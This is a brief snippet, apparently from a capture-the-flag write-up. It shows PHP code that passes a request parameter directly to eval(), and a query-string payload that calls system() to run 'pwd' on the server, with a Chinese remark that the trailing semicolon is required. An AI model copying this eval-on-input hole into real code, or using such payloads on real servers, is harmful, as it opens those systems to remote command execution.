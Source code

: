 
```
<?php  
if (isset($_REQUEST['cmd'])) {  
    eval($_REQUEST["cmd"]);  
} else {    highlight_file(__FILE__);  
}  
?>
```

`/?cmd=system(%22pwd%22);`

`;`不能少

